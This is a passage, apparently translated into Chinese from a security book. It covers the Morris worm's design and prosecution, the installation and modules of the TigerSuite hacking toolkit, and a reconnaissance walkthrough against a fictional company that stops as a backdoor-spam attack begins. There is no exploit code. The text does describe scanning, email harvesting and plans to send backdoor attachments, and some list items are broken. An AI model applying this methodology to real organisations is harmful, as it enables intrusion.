莫里斯寻求编写互联网蠕虫程序，使其广泛传播而不引起注意。蠕虫本应占用很少的计算机运行时间，因此不会干扰计算机的正常用途。莫里斯编程使蠕虫难以检测和读取，以便其他程序员不能轻易“杀死”蠕虫。莫里斯还希望确保蠕虫不会自我复制到已经有一份副本的计算机上。计算机上的多个蠕虫副本将使其更容易被检测，并会导致系统变慢，最终导致计算机崩溃。因此，莫里斯设计蠕虫向每台计算机“询问”它是否已经拥有蠕虫的副本。如果计算机回答“没有”，那么蠕虫将复制自身到该计算机上；如果回答“有”，蠕虫则不会复制。然而，莫里斯担心其他程序员可以通过编程使他们的计算机对这个问题虚假地回答“有”来杀死蠕虫。为了绕过这种保护，莫里斯编程使蠕虫在收到“有”的响应时，每第七次就复制自身。结果证明，莫里斯低估了计算机被询问该问题的次数，他的七分之一比例导致复制次数远远超出他的预期。该蠕虫还被设计为当计算机关闭时会被终止，这种情况通常每两周发生一次。如果莫里斯正确估算了再感染的可能率，这应该能防止蠕虫在一台计算机上累积。

莫里斯识别出蠕虫可以突破网络计算机安全的四种方式：

- (1) 通过 SEND MAIL（一种在计算机上传输和接收电子邮件的计算机程序）中的“漏洞”或“错误”（bug）；
- (2) 通过“finger daemon”程序中的错误，该程序允许一个人获取另一台计算机上用户的有限信息；
- (3) 通过“信任
- (4) 通过“信任

657


“主机”功能，允许在计算机上拥有特定权限的用户在另一台计算机上获得等效权限而无需使用密码；以及（4）通过密码猜测程序，以快速序列尝试各种字母组合，希望其中一个匹配已授权用户的密码，从而输入以允许该用户执行其被授权的各类操作。

1988年11月2日，Morris 从麻省理工学院的一台计算机上释放了该蠕虫。选择麻省理工学院是为了掩盖蠕虫源自 Cornell 大学的 Morris 这一事实。Morris 很快发现，该蠕虫的复制和再感染速度比他预期的要快得多。最终，全国各地各处的机器要么崩溃，要么变得“僵死”。当 Morris 意识到发生了什么时，他联系了哈佛大学的一位朋友以讨论解决方案。最终，他们从哈佛大学通过网络发送了一条匿名消息，指导程序员如何终止该蠕虫并防止其再次感染。然而，由于网络路线拥塞，该消息直到为时已晚才传送成功。包括著名大学、军事设施和医学研究机构在内的众多机构均受到影响。各机构处理该蠕虫的预估费用从 200 美元到超过 53,000 美元不等。

陪审团审判后，Morris 被判违反 18 U.S.C. 第 1030(a)(5)(A) 条。他被判处三年缓刑、400 小时社区服务、10,050 美元的罚款以及监管费用。

此次起诉的成功表明，美国司法系统能够并且将会起诉被视为涉及国家利益的国内计算机犯罪。

话虽如此，联邦政府迄今一直不愿依据 1986 年法案进行起诉，这可能是因为大多数州立法机构已制定了自己的法规，且国会对于取代州法院对计算机相关犯罪的管辖权持谨慎态度。因此，熟悉与发现、黑客攻击和安全分析相关的当地立法指令是个好主意。

硬件要求取决于 TigerBox 的预定用途。例如：该系统将用于编程吗？该系统将作为游戏 PC 吗？目前，为了满足大多数场景，最低要求包括以下内容：

- **处理器：** Pentium 160+。
- **内存：** 64 MB。
- **硬盘：** 8 GB。
- **视频：** 支持至少 1024 x 768 分辨率，16 位色。
- **网络：** 双网卡，其中至少一个支持被动模式或混杂模式。（当接口处于混杂模式时，你明确要求接收所有数据包的副本，无论其是否指向 TigerBox。）
- **其他：** 三键鼠标、CD-ROM 和软盘驱动器。

## TigerSuite 简介

TigerSuite 采用专有编码和技术设计，是进行专业安全分析所需一切功能的汇编；即，用于发现、扫描、渗透、暴露、控制、间谍、洪水攻击、欺骗、嗅探、感染、报告、监视等。在 ValCom 工程师（www.pcval.com）于 2000 年 9 月进行的一项基准测试比较中，将 TigerSuite 与其他流行的商业发现/扫描软件（针对简单的 1,000 端口扫描）进行了对比。Tiger Tools 平均在不到一分钟内完成了扫描，而在两次扫描中均发现相同结果，其他软件的平均时间则为 35 分钟。他们的总体观点很简单：设计和开发的产品非常出色。

## 安装

TigerSuite 可以使用两种方法之一进行激活：*本地* 或 *移动*。本地方法需要从 CD-ROM 进行简单安装。移动方法涉及一项新技术功能，允许 TigerSuite 直接从 CD 运行。利用*便携式库模块化*技术，通过运行主程序文件 *TSMobile.EXE*，软件从 CD 执行。此便捷功能允许在不修改 PC 配置和/或占用重要硬盘空间的情况下使用软件。

## 本地安装方法

TigerSuite 的本地安装过程只需几分钟。安装程序（包含在此书的 CD 中）会自动安装、配置和初始化工具套件的评估。


本地安装过程的最低系统要求如下：

- **操作系统：** Windows NT Workstation 4.0、Windows NT Server 4.0、Windows NT Server 5.0、Windows 95、Windows 98、Millennium Edition 或 Windows 2000
- **操作系统服务包：** 任意
- **处理器：** Pentium 或更高
- **内存：** 16 MB 或更多
- **硬盘空间：** 10 MB 可用空间
- **网络/互联网连接：** 使用 TCP/IP 协议的 10BASET、100BASET、令牌环、ATM、xDSL、ISDN、电缆调制解调器或普通调制解调器连接

安装过程可分为六个步骤描述：

1. 运行 Tsetup.EXE。在运行安装程序时，应用程序首先必须解包安装文件并验证它们。运行后，如果安装程序检测到已存在 TigerSuite 版本，它将自动用较新的升级版本覆盖较旧的文件。将显示欢迎屏幕（见图 12.1）。


2. 点击“下一步”继续。

3. 审阅许可协议。你必须通过点击“是”来接受并同意许可协议的条款和条件，以完成安装过程。否则，点击“否”退出安装。以下是该政策的摘录：

本软件仅销售用于信息目的，为您提供执行专业安全审计所需的互联网知识及工具。开发者或分销商不对所含信息的使用或误用承担责任。本软件及随附文件按“原样”出售，不附带关于性能、适销性或任何其他明示或暗示的保证。虽然我们尽合理努力包含准确且最新的信息，但不对其准确性、及时性或完整性做任何陈述，你也不应依赖于此。使用本软件即表示你同意其信息和服务按“原样、可用”提供，不附带任何明示或暗示的保证，且你自行承担风险使用本软件。访问本软件的任何部分即表示你同意不重新分发其中发现的任何信息。我们不对因你使用本软件而产生或以任何方式与之相关的任何损害或费用负责。你进一步同意，本软件的开发者或分销商以及参与创建和交付内容的其他方，对通过本软件包含或以其他方式访问的信息、软件或内容不负直接、间接、附带、惩罚性或后果性损害的责任。


图 12.3 选择目标位置屏幕。

4. 输入用户信息（见图 12.2）。只需输入你的姓名和/或公司名称，然后点击“下一步”继续。

5. 验证安装路径（见图 12.3）。如果你想更改安装程序将安装和配置 TigerSuite 的路径，请点击“浏览”并选择你要使用的路径。点击“下一步”继续。

6. 文件复制验证。此时，安装程序已记录安装信息，并准备复制程序文件。安装程序还显示之前步骤中目标位置和用户信息的概要。如果你想更改任何设置，请点击“返回”，或点击“下一步”让安装程序开始复制程序文件。安装程序将监视文件复制过程和系统资源（如图 12.4 所示）。如果安装程序遇到任何问题，它将停止运行并显示警告。

安装完成后，即可按照下面“移动安装方法”部分的说明来运行 TigerSuite。


**图 12.4** 监控文件复制过程。

## 移动安装方法

若要直接调用 CD 上的 TigerSuite，请遵循以下步骤：

1. 运行 *TSmobile.EXE* 文件。程序将初始化并启动（如图 12.5 所示），就好像之前使用上述安装程序安装过一样。（当 TigerSuite 在本地安装时，从“开始/程序/TigerSuite/TS”选择该文件将启动主程序模块。）此时，TigerSuite 将为您的系统进行初始化，并作为背景应用程序放置在任务栏中显示。
2. 单击任务栏中的迷你 TigerSuite 图标，通常位于系统时间旁边，以启动选项子菜单（参见图 12.6）。注意：关闭所有打开的系统模块不会关闭 TigerSuite；它仅关闭打开的“系统状态”监控和信息模块。若要完全退出 TigerSuite，必须通过从子菜单中选择“退出并卸载 TigerSuite”来停止该服务。

## 程序模块

程序模块由系统状态硬件和互连网络分析工具组成，旨在提供安全分析前、中、后系统的网络、互连网络状态和统计数据。此外，这些工具是 TigerBox 工具箱（稍后描述）的宝贵配套，有助于成功且专业地执行安全审计。

### 系统状态模块

要激活系统状态模块，请单击任务栏中的迷你 TigerSuite 图标，然后从选项子菜单中选择“系统状态”（参见图 12.7）。


**图 12.5** TigerSuite 初始化。


**图 12.6** 启动 TigerSuite 程序模块。


**图 12.7** 启动系统状态模块。

### 硬件模块

硬件类别（图 12.8）维护以下系统状态模块：CMOS 内容、驱动器（磁盘空间和卷信息指南），以及内存、电源和处理器监控器。互连网络类别包括以下统计型网络嗅探器：IP、ICMP、网络参数、TCP 和 UDP。


**图 12.8** 系统状态硬件模块。


**图 12.9** CMOS 内容模块。

硬件模块定义如下：

- **CMOS 内容（图 12.9）。** 此模块报告来自系统 CMOS（非易失性 RAM）的关键故障排除信息。CMOS 是 *互补金属氧化物半导体*（complementary metal oxide semiconductor）的缩写，是用于制造计算机微芯片中晶体管的半导体技术。配置故障排除的重要部分包括记录在 CMOS 中的信息，例如关于特征、地址和 IRQ 的设备详情。在安装兼容 TigerBox 的操作系统之前，此组件在收集信息时很有用。
- **驱动器：磁盘空间和卷信息（图 12.10）。** 这些模块报告关于当前硬盘驱动器磁盘空间和卷数据状况的重要数据统计数据。这里提供的信息有助于在安装兼容 TigerBox 的操作系统之前制定分区方案。


**图 12.10** 磁盘空间和卷信息模块。


**图 12.11** 内存统计、电源统计和处理器信息模块。

- **内存状态、电源状态和处理器信息（图 12.11）。** 这些模块提供安全分析和/或渗透测试序列前、中、后的关键内存、电源和处理器状态。根据收集的数据，可以预测关于扫描分析期间可以初始化多少线程、多少发现模块可以同时运行、一次可以测试多少网络地址等的平均基线，等等。

### 系统状态互连网络模块

要激活系统状态互连网络嗅探器模块，请单击任务栏中的迷你 TigerSuite 图标，然后从选项子菜单中选择“系统状态”，最后选择“互连网络”（图 12.12）。请记住，网络嗅探器是诊断网络问题的宝贵工具——可以说，是为了看到主机和节点之间通信后台正在发生的事情。嗅探器捕获进入和离开网络接口卡（NIC）或调制解调器的数据，并以表格形式显示该信息。


**图 12.12** 互连网络类别选择。

互连网络模块定义如下：

- **IP 统计（图 12.13）。** 此模块收集接口 IP 路由、数据报、分片、重组和头部错误的当前统计数据。请记住，IP 是一种旨在互连网络以形成互联网来传递数据的协议。它包含寻址和控制信息，使数据包能够通过此互联网进行路由。遇到这些数据包的设备（如路由器）会剥离并检查包含敏感路由信息的头部。然后，这些头部会被修改并重新格式化为要传递的数据包。IP 数据报是互联网中的主要信息单元。IP 的职责还包括数据报的分片和重组，以支持具有不同传输大小的链路。数据包头部包含控制信息（路由规范）和用户数据。这些信息可以被复制、修改和/或伪造。


- **ICMP 统计（图 12.14）。** 此模块收集进出网络接口的当前 ICMP 消息，然后通常与泛洪器和伪造器一起使用。互联网控制消息协议（ICMP）向发送站或源发送消息数据包，报告错误和其他相关信息。主机和基础设施设备使用 ICMP 来传递与 IP 数据包处理相关的控制和错误信息。ICMP 消息封装是一个双重过程：消息封装在 IP 数据报中，而数据报又封装在帧中，以跨互联网传输。基本上，ICMP 使用与数据报相同的不可靠通信手段。因此，ICMP 错误消息可能会丢失或重复。

- **网络参数。** 此模块主要用于快速定位信息。提供的信息有助于在执
行渗透攻击前检测成功的配置伪造修改以及当前的路由/网络设置。

- **TCP 统计（图 12.15）。** IP 有许多弱点，包括不可靠的数据包交付（数据包可能因传输错误、糟糕的路由和/或吞吐量下降而丢失）。TCP 通过提供可靠的、面向流的连接来帮助解决这些问题。事实上，TCP/IP 主要基于基于 IP 的 TCP 功能，以构成 TCP/IP 协议套件。这些功能描述了通信建立的面向连接的过程。TCP 使用 32 位序列号来组织和计算数据流中的字节。每个 TCP 数据包都包含起始序列号（第一个字节）和确认号（最后一个字节）。为了实现流传输的更高效率，实施了一个称为滑动窗口（sliding window）的概念。滑动窗口，通常被称为“握手过程”，更有效地利用带宽，因为它允许在需要确认之前传输多个数据包。TCP 泛洪是对网络接口的常见恶意攻击形式；因此，开发了此模块来监控和验证此类活动。


**图 12.15** TCP 统计模块。

- **UDP 统计（图 12.16）。** UDP 在协议和应用软件之间提供复用和去复用。复用是描述多个信号作为输入流通过单个物理通道并发传输的术语。去复用是将已复用的流分离回多个输出流的过程。就 UDP 而言，复用和去复用通过端口进行。每个站点应用程序在发送 UDP 数据报之前必须协商一个端口号。当 UDP 在数据报的接收端时，它检查头部（目的端口字段），以确定它是否匹配站点当前正在使用的端口之一。如果该端口被侦听应用程序使用，则传输继续进行。如果该端口未在使用，则生成 ICMP 错误消息，数据报被丢弃。针对目标网络接口的其他常见泛洪攻击涉及 UDP 溢出攻击。此模块监控并验证此类攻击，以便主动报告和测试成功完成。


**图 12.16** UDP 统计模块。

## TigerBox 工具箱

访问 TigerBox 工具箱实用程序很简单，只需单击任务栏中的迷你 TigerSuite 图标，然后选择“TigerBox 工具箱”，最后从选项子菜单中选择“工具”即可（如图 12.17 所示）。


# TigerBox 工具

本节介绍的 TigerBox 工具旨在执行严肃的网络发现任务；它们包含提供 Finger、DNS、主机名、NS 查询、路由跟踪和 Whois 查询的模块。每个工具都旨在与任何现有的路由器、网桥、交换机、集线器、个人计算机、工作站和服务器协同工作。详细的发现报告与任何 Web 浏览器兼容，使这些工具成为库存管理和管理的绝佳资源。正如前几章所述，从这些实用程序中收集的输出对于专业安全评估的信息发现阶段至关重要。


**图 12.17** 启动 TigerBox 工具包工具。

-   **Finger 查询。** Finger 查询是一个客户端守护程序模块，它向接受并处理 Finger 请求的 finger-d（Finger 守护程序）进行查询。如果可以 Finger 某个账户，检查该账户将返回预设信息，例如账户持有人的真实姓名、其最近登录该账户的时间，有时还有更多。通常，.edu、.net 和 .org 账户使用可以被查询的 Finger 服务器守护程序。然而，某些账户由于主机系统安全或操作策略的原因，不使用 Finger 服务器守护程序。由于标准 Finger 守护程序会乐意查找类似匹配项，Finger 守护程序已成为 NIS DoS 攻击的流行目标。

-   **DNS 查询（图 12.18）。** DNS 主要用于在域名与其 IP 地址之间进行转换，并控制 Internet 电子邮件传递、HTTP 请求和域转发。DNS 目录服务由 DNS 数据、DNS 服务器以及从服务器获取数据的 Internet 协议组成。DNS 目录中的记录被分割到称为区域（zones）的文件中。区域保存在分布在整个 Internet 上的权威服务器上，这些服务器根据 DNS 网络协议回答查询。此外，大多数服务器是某些区域的权威服务器，并针对所有其他 DNS 信息执行缓存功能。此模块执行 DNS 查询，目的是获取不可或缺的发现信息；这通常是黑客行动过程中的第一步。DNS 资源记录类型包括：


**图 12.18** DNS 查询模块。

    -   A：地址。定义于 RFC 1035。
    -   AAAA：IPv6 地址。定义于 RFC 1886。
    -   AFSDB：AFS 数据库位置。定义于 RFC 1183。
    -   CNAME：规范名称。定义于 RFC 1035。
    -   GPOS：地理位置。定义于 RFC 1712。已废弃。
    -   HINFO：主机信息。定义于 RFC 1035。
    -   ISDN。定义于 RFC 1183。
    -   KEY：公钥。定义于 RFC 2065。
    -   KX：密钥交换器。定义于 RFC 2230。
    -   LOC：位置。定义于 RFC 1876。
    -   MB：邮箱。定义于 RFC 1035。
    -   MD：邮件目的地。定义于 RFC 1035。已废弃。
    -   MF：邮件转发器。定义于 RFC 1035。已废弃。
    -   MG：邮件组成员。定义于 RFC 1035。
    -   MINFO：邮箱或邮件列表信息。定义于 RFC 1035。
    -   MR：邮件重命名域名。定义于 RFC 1035。
    -   MX：邮件交换器。定义于 RFC 1035。
    -   NS：名称服务器。定义于 RFC 1035。
    -   NSAP：网络服务访问点地址。定义于 RFC 1348。在 RFC 1637 和 1706 中重新定义。
    -   NSAP-PTR：网络服务访问协议。定义于 RFC 1348。已废弃。
    -   NULL。定义于 RFC 1035。
    -   NXT：下一个。定义于 RFC 2065。
    -   PTR：指针。定义于 RFC 1035。
    -   PX：指向 X.400/RFC822 信息的指针。定义于 RFC 1664。
    -   RP：负责人。定义于 RFC 1183。
    -   RT：经由路由。定义于 RFC 1183。
    -   SIG：加密签名。定义于 RFC 2065。
    -   SOA：授权开始。定义于 RFC 1035。
    -   SRV：服务器。定义于 RFC 2052。
    -   TXT：文本。定义于 RFC 1035。
    -   WK5：知名服务。定义于 RFC 1035。
    -   X25。定义于 RFC 1183。

    针对最流行的 Internet 搜索引擎之一 Yahoo (http://www.yahoo.com) 的 DNS 查询请求示例将显示：

```text
-->HEADER<!-- opcode: QUERY, status: NOERROR, id: 13700
;; flags: qr rd ra; QUERY: 1, ANSWER: 7, AUTHORITY: 3, ADDITIONAL: 19
;; yahoo.com, type = ANY, class = IN
yahoo.com.        12h44m31s IN NS  NS3.EUROPE.yahoo.com.
yahoo.com.        12h44m31s IN NS  NS1.yahoo.com.
yahoo.com.        12h44m31s IN NS  NS5.DCX.yahoo.com.
yahoo.com.        23m3s IN A    204.71.200.243
yahoo.com.        23m3s IN A    204.71.200.245
yahoo.com.        3m4s IN MX    1 mx2.mail.yahoo.com.
yahoo.com.        3m4s IN MX    0 mx1.mail.yahoo.com.
yahoo.com.        12h44m31s IN NS  NS3.EUROPE.yahoo.com.
yahoo.com. 12h44m31s IN NS NS1.yahoo.com.
 yahoo.com. 12h44m31s IN NS NS5.DCX.yahoo.com.
 NS3.EUROPE.yahoo.com. 1h13m23s IN A 194.237.108.51
 NS1.yahoo.com. 7h18m19s IN A 204.71.200.33
 NS5.DCX.yahoo.com. 1d2h46m6s IN A 216.32.74.10
 mx2.mail.yahoo.com. 4m4s IN A 128.11.23.250
 mx2.mail.yahoo.com. 4m4s IN A 128.11.68.213
 mx2.mail.yahoo.com. 4m4s IN A 128.11.68.139
 mx2.mail.yahoo.com. 4m4s IN A 128.11.68.144
 mx2.mail.yahoo.com. 4m4s IN A 128.11.23.244
 mx2.mail.yahoo.com. 4m4s IN A 128.11.23.241
 mx2.mail.yahoo.com. 4m4s IN A 128.11.68.146
 mx2.mail.yahoo.com. 4m4s IN A 128.11.68.158
 mx1.mail.yahoo.com. 4m4s IN A 128.11.68.218
 mx1.mail.yahoo.com. 4m4s IN A 128.11.68.221
 mx1.mail.yahoo.com. 4m4s IN A 128.11.23.238
 mx1.mail.yahoo.com. 4m4s IN A 128.11.68.223
 mx1.mail.yahoo.com. 4m4s IN A 128.11.68.100
 mx1.mail.yahoo.com. 4m4s IN A 128.11.23.198
 mx1.mail.yahoo.com. 4m4s IN A 128.11.23.250
 mx1.mail.yahoo.com. 4m4s IN A 128.11.23.224
```

-   **IP/主机名查找器**。 该模块非常简单，用于查询 Internet 上的主要 IP 地址（给定主机名）或反之亦然。此模块的特定用法是在发现阶段快速确定网络的主要地址或主机名。只需输入主机名，例如 www.yahoo.com，然后单击“获取 IP 地址”，如图 12.19 所示。


**图 12.19** IP/主机名查找器模块。

-   **NS 查找。** 该模块是上述 IP/主机名查找器的一个高级分支，因为它会搜索与单个主机名相关的多个次要地址，如图 12.20 所示。


**图 12.20** NS 查找模块。


**图 12.21** 使用 TigerSuite 进行路由跟踪。

-   **Telnet 会话。** 在拥有图形编译器的 Web 浏览器甚至万维网出现之前，Internet 上的计算机通过使用 telnet 守护程序以文本和命令行控制的方式进行通信。通常，你通过“终端”访问这些主机，该终端是直接连接到更大、更复杂的“主机系统”的简单计算机。Telnet 软件是“终端仿真器”软件；也就是说，它假装是直接与主机系统连接的终端，尽管其实际连接是通过 Internet（通常通过 TCP 端口 23）建立的。回想使用 telnet 验证路由器的虚拟管理界面：该模块旨在帮助执行发现功能，例如验证路由器管理界面、连接到邮件服务器的 SMTP 和 POP 端口等。

-   **路由跟踪（图 12.21）。** 路由跟踪显示数据从发送节点传输到目标节点的路径，返回毫秒级的时间和中间的每跳计数（例如，路由器和/或服务器）。跟踪路由通常是故障排查连接问题的关键机制。黑客会使用此命令来发现其 TigerBox 和特定目标之间的各种网络，以及确定防火墙或过滤设备的位置。


-   **WhoIs 查询（图 12.22）。** 该模块是目标发现 Whois，作为在 NSI 注册局数据库中查找记录的工具。NSI 注册局数据库中的每条记录都被分配一个唯一标识符：名称、记录类型和各种其他字段。要使用 Whois 进行域名搜索，只需输入你要查找的域名。如果你要搜索的域名不包含在 NSI 注册局 Whois 数据库中，Whois 将访问共享注册系统和其他远程注册局的 Whois 服务以满足域名搜索需求。

# TigerBox 扫描器

扫描背后的想法是探测尽可能多的端口，并记录那些对特定需求有响应或有用的端口。扫描器程序报告这些有响应的监听器，然后可用于弱点分析和进一步利用。本节的扫描器旨在执行严肃的网络识别和隐蔽发现；它包含以下


## TigerBox 工具包扫描器

TigerBox 工具包扫描器包含以下模块：Ping 扫描器、IP 范围扫描、IP 端口扫描器、网络端口扫描器、站点查询扫描和代理扫描器。

启动 TigerBox 工具包扫描器的方法是：点击任务栏中的 mini TS 图标，然后选择 TigerBox 工具包，最后选择扫描器，如图 12.23 所示。

**黑客备注：** 在所有扫描器中都通用的一个子指令模块可以通过在输出字段中对 IP 地址进行右键单击来激活，如图 12.24 所示。


**图 12.23** 启动 TigerBox 扫描器。

以下是扫描器的描述：

- **Ping 扫描器。** 回想一下，Ping 向远程或本地主机发送一个数据包，请求回响回复。如果回响返回，则该节点处于在线状态，并且至少正在监听 TCP 端口 7；因此，它可能易受 Ping 泛洪攻击的影响。如果回响未返回，这可能表明该节点不可用，沿途存在某种网络故障，或者有过滤设备正在屏蔽回响服务。因此，Ping 是一个用于验证连接性的网络诊断工具。从技术上讲，Ping 以数据包的形式向远程主机发送 ICMP 回响请求，并显示每个回响回复的结果。通常，Ping 每秒发送一个数据包，并为每个收到的响应打印一行输出。当程序终止时，它会显示往返时间和数据包丢失统计信息的简要摘要。此模块专为自定义识别或半隐蔽 Ping 扫描而设计，指示超时、大小和 Ping 计数。


**图 12.24** 通过右键单击访问子指令模块。


**图 12.25** IP 范围扫描模块。

- **IP 范围扫描（图 12.25）。** 此模块本质上是一个高级发现 Ping 扫描器。它将扫描整个 IP 地址范围并报告处于活动状态的节点。这项技术是目标网络发现分析期间执行的首要步骤之一。

- **IP 端口扫描器/网络端口扫描器（图 12.26）。** 这些模块分别执行自定义的单 IP 和多网络 IP 地址范围的端口扫描。在 TigerSuite 与流行的商业发现扫描软件的对比中，对于简单的 10,000 端口的 C 类网络扫描，TigerSuite 在不到 9 分钟内完成，而其他软件包的平均时间为 65 分钟，结果相同。

- **站点查询扫描/代理扫描器。** 这些模块的主要目的是消除目标节点发现过程中的猜测。这些扫描技术根据给定的地址或主机名完成信息查询。输出字段显示目标操作系统的当前类型和版本，以及 FTP、HTTP、SMTP、POP3、NNTP、DNS、Socks、代理、Telnet、Imap、Samba、SSH 和/或 finger 服务器守护进程。目标是节省数小时的信息发现时间，以便为渗透分析提供更多时间。


**图 12.26** IP 和网络端口扫描器模块。

## TigerBox 渗透器

系统和网络安全性的漏洞渗透测试是确保安全策略和基础设施保护计划正常运行的极少数方法之一。TigerSuite 渗透模块设计精良，可提供详细的渗透攻击，通过定位安全缺口来测试强度和弱点。这些黑客程序可对内部和外部可能存在的潜在安全风险进行深入评估。

启动 TigerBox 工具包渗透器的方法是：点击任务栏中的 mini TS 图标，然后选择 TigerBox 工具包，最后选择渗透器，如图 12.27 所示。此子菜单中找到的软件模块包括：缓冲区溢出器、FTP 破解器、FTP 泛洪器、HTTP 破解器、HTTP 泛洪器、邮件轰炸器、邮件破解器、密码破解器、Ping 泛洪器、服务器端崩溃器、垃圾邮件发送器、TigerBreach 渗透器和 WinCrasher。

## TigerBox 模拟器

为了测试渗透技术，TigerSim 虚拟服务器模拟器将缩短您的学习曲线。使用 TigerSim，您可以模拟您选择的网络服务器守护进程，无论是电子邮件、HTTP 网页服务、Telnet、FTP 等。

启动 TigerBox 工具包模拟器的方法是：点击任务栏中的 mini TS 图标，然后选择 TigerBox 工具包，最后选择模拟器，如图 12.28 所示。

作为 TigerSuite 和 TigerBox 的一部分，服务器模拟器的要求相同：

- 处理器：Pentium 160+
- 内存：64 MB
- 硬盘：8 GB
- 视频：支持至少 1024×768 分辨率，16K 色


- 网络：双网卡，至少一个支持被动或混杂模式
- 其他：三键鼠标、CD-ROM 和软盘驱动器

运行后，单个 TigerSim 虚拟服务器可以从主控制面板启动。例如，图 12.29 显示已选择并连接了 HTTP Web 服务器守护进程至 Netscape。


**图 12.29** TigerSim 虚拟服务器模拟器。

会话嗅探器字段指示虚拟 Web 服务器报告的通信事务序列。这对于监控目标渗透、验证欺骗技术、记录黑客痕迹等非常有用。另一方面，脚本字段允许向黑客工作站或 TigerBox 即时回复、上传黑客脚本等（见图 12.30）。

## 现实世界黑客分析示例

第 5 至 9 章描述了与安全审计初始阶段相关的技术，包括通过发现流程识别目标公司 XYZ, Inc.。在本节中，我们将使用 TigerSuite 重现我们的发现，并进一步探测其渗透易感性。

> **黑客备注** 本分析中的发现已完全更改，以保护目标公司的真实名称和网络。


**图 12.30** TigerSim 会话嗅探器。

我们将仅使用运行 TigerSuite 的 TigerBox、本书中描述的各种工具、互联网访问以及给定的目标（XYZ, Inc.）开始。

### 步骤 1：目标研究

作为我们黑客行动目标研究阶段的一部分，我们将采用以下技术：互联网搜索、Whois 查询、调查公司网站以获取员工姓名和/或电子邮件地址，最后进行地下搜索，查找涉及我们目标的先前黑客攻击、破解或线索。

在第 5 章中，我们确定了 Whois 的重要性并定义了其程序。随着使用 TigerSuite Whois 查询模块（针对 XYZ, Inc.），事情将变得更加容易。开始工作，我们将打开浏览器并使用主要引擎（如：Yahoo (www.yahoo.com)、Lycos (www.lycos.com)、AltaVista (www.altavista.com)、Excite (www.excite.com)、InfoSeek (http://infoseek.go.com)、LookSmart (www.looksmart.com)、Thunderstone (http://search.thunderstone.com) 和 Netscape (http://search.netscape.com)）对我们的目标域名进行互联网搜索，如图 12.31 所示。


**图 12.31** 使用搜索引擎进行目标研究。

一旦获得目标域名（www.xyzinc.net），我们点击任务栏中的 TigerSuite 图标，然后依次选择子菜单选项 TigerBox 工具包/工具/Whois 查询。使用 Whois 查询程序，我们将从 Network Solutions（北美域名相关信息）查询此域名，如图 12.32 所示。


**图 12.32** 使用 TigerSuite 进行目标 Whois 查询。

您可能已经推断出，此查询中的重要发现信息包括管理员联系人和域名服务器：

管理员联系人、技术联系人：hostmaster@xyzinc.net

按顺序列出的域名服务器：

- NS1.XYZINC.NET 206.0.139.2
- NS2.XYZINC.NET 206.0.139.4

我们将记录此信息，因为它将在接下来的几个步骤中派上用场。

我们目标研究的下一部分涉及对目标域名网站进行详细检查。此时，黑客浏览网页以寻找信息“疏忽”，以补充其研究。这些疏忽包括网络图表摘录、服务器平台参考、个人电子邮件地址发布、数据中心位置、电话号码前缀等。令人惊讶的是，有多少企业网站通过列出平台和防火墙类型来吹嘘其安全性。让我们访问 www.xyzinc.net 并进一步仔细检查任何可能的泄露信息（见图 12.33）。

我们的示例分析将利用当前大多数站点设计中存在的常见漏洞。图 12.33 所示的联系人页面是一


**图 12.33** 在目标网站搜索线索。

一个指定了三条值得注意的研究突破的例子：联系人姓名、电子邮件地址以及 Web 服务器守护进程的提示。我们将把这些信息添加到我们之前的发现中，然后继续深入探索。

黑客使用许多巧妙的实践来研究目标，每一种都针对特定的风格精心制定。为了强调这一点，我们将从臭名昭著的地下网关 AstaLaVista（www.astalavista.com）开始，在地下网络中搜索涉及我们目标的历史黑客攻击、破解或线索，如图 12.34 所示。AstaLaVista 被认为是官方地下网站列表爬虫之一。但使用这些搜索引擎，我们并没有找到任何与我们目标研究相关的信息。


**图 12.34** 在地下网络搜索。

## 步骤 2：发现

我们样本分析的下一步是发现阶段。基于从目标研究步骤中收集到的宝贵信息，该阶段结合 IP 地址和端口扫描、nslookup 以及站点查询进一步融入新的发现。在开始之前，让我们看看我们目前整理的笔记：

- 管理员联系人、技术联系人：
  - hostmaster@xyzinc.net
- 域名服务器按顺序列出：
  - NS1.XYZINC.NET 206.0.139.2
  - NS2.XYZINC.NET 206.0.139.4
- 公司联系信息：
  - 公共关系部的 Tom Friedman
  - 电子邮件：pr@xyzinc.net
  - 潜在的 Web 服务器守护进程：
  - Microsoft Internet Information Server (IIS)

我们将使用 TigerSuite TigerBox Toolkit/Tools/IP/Hostname Finder 将目标域名解析为 IP 地址，以此开始这一步骤（见图 12.35）。


**图 12.35** 解析目标主机名。

由于域名和名称服务器 IP 地址都属于同一网络的一部分，我们可以假设目标的边界网络是一个具有 206.0.139.0/24 地址块的 C 类网络。考虑到这一点，其余的发现模块可以按任意特定顺序执行，但我们将使用 TigerSuite TigerBox Toolkit/Scanners/Site Query Scan 继续前进，如图 12.36 所示。


**图 12.36** 执行站点查询扫描。

正如我们所预见的，目标 Web 服务器守护进程是 IIS，版本 4.0，它驻留在使用 HTTP 版本 1.1 的 NT 服务器上。还记得第 9 章中讨论的 IIS 漏洞攻击吗？这些利用方式可以作为潜在 Web 页面黑客攻击的实用评估手段。

让我们继续进行目标 IP 地址和端口扫描。假设是一个 C 类网络块，我们将使用 TigerSuite TigerBox Toolkit/Scanners/IP Range Scan 来验证我们的活动地址，并可能发现其他监听节点（见图 12.37）。


**图 12.37** 搜索更多线索。

根据这些发现，黑客会认为我们的目标管理员是个“菜鸟”，基本上是一个无知或缺乏经验的 IS 技术人员——如果这些潜在脆弱的节点包含安全漏洞，他们的职位可能会岌岌可危。更重要的是，我们要仔细记录以下内容：

主机 IP DNS 解析
地址
206.0.139.8 mtapel.xyzinc.net
206.0.139.89 kflippel.xyzinc.net

很可能这些是用户名，可能属于那些为自己的节点开放了一些防火墙测试端口的 IS 技术人员。这导致我们得出结论，已发现另外两个电子邮件地址：mtapel@xyzinc.net 和 kflippel@xyzinc.net。黑客接下来最明显的步骤将是调用这个 TigerSuite 模块：TigerBox Toolkit/Scanners/IP Port Scanner。为了简洁起见，图 12.38 仅显示了每次扫描中相关的摘录。

显然，负责这个特定网络安全的网络管理员忽视了一些巨大的、张着嘴的漏洞。让我们看看下一步，一些社会工程学手段，揭示了什么。

## 步骤 3：社会工程学

前面的章节描述了世界各地的黑客常用的各种社会工程学技术。在这个例子中，我们暴露了足够多的漏洞，足以让 xyzinc.net 的防御陷入混乱。然而，为了讨论的目的，我们将深入探讨其中最狡猾的隐蔽渗透方式：后门邮件垃圾。

此攻击概述了一种获取、保留并掩盖对目标系统访问权限的黑客方法。使用 TigerSuite Penetrator Spammer 或第 8 章中提到的其他工具（可在本书光盘上找到），此渗透通过被垃圾电子邮件和附带后门附件发送到以下地址：

| 地址 | 端口 | 描述 |
